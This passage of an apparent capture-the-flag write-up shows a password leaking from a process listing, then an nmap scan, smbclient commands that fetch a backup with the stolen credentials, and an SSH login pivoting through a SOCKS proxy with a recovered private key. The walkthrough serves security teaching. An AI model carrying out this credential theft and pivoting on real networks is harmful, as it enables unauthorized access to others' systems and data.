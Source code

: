 ```
root      774115  0.0  0.0   2576   924 ?        Ss   10:10   0:00  |       \_ /bin/sh -c read -t 2.0; /bin/bash /opt/client/backup.sh<br />
root      774119  0.0  0.0   3924  2748 ?        S    10:10   0:00  |           \_ /bin/bash /opt/client/backup.sh<br />
root      774196  0.0  0.0  23036  3568 ?        R    10:10   0:00  |               \_ smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1729937401.tgz backup-home.tgz<br />
root      774197  0.0  0.0   8100  3932 ?        R    10:10   0:00  |               \_ ps faxu<br />
root          65  0.0  0.0  15432  4720 ?        S    Oct14   0:47  \_ sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups<br />
john@tc+      66  0.0  0.0   2464   824 ?        S    Oct14   0:00  \_ sshpass -p xxxxxxxxxxxxxxxxxxxx ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100<br />
john@tc+      67  0.1  0.4  45112 37440 pts/0    Ss+  Oct14  19:13      \_ ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100<br />
```

Now we can see that some backup is being published to `//10.99.24.100/backup`
using username of `backuper` and the password `Bprn5ibLF4KNS4GR5dt4`. The scan
shows that the host is accessible and has SMB ports open.

```console
$ nmap -p - 10.99.24.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 12:28 CEST
Nmap scan report for 10.99.24.100
Host is up (0.011s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Therefore we can directly retrieve the backup.

```console
$ smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c "get backup-home.tgz"
getting file \backup-home.tgz of size 5830741 as backup-home.tgz (7832.3 KiloBytes/sec) (average 7832.3 KiloBytes/sec)
```

After we extract the backup and explore the content, we can find the user's
private key in `john@tcc.local/.ssh/id_rsa`. In addition to that, the
`authorized_keys` in the same directory indicates, that login using this key is
only allowed from `10.99.24.100`. At the same time, the information that we
already have shows that the port `23000` offers a SOCKS proxy, that ends on
`10.99.24.100`, so we can use it to connect.

```console
$ ssh -o "ProxyCommand=nc -x 10.99.24.101:23000 %h %p" -i "john@tcc.local/.ssh/id_rsa" -l "john@tcc.local" 10.99.24.101
Enter passphrase for key 'john@tcc.local/.ssh/id_rsa':
```
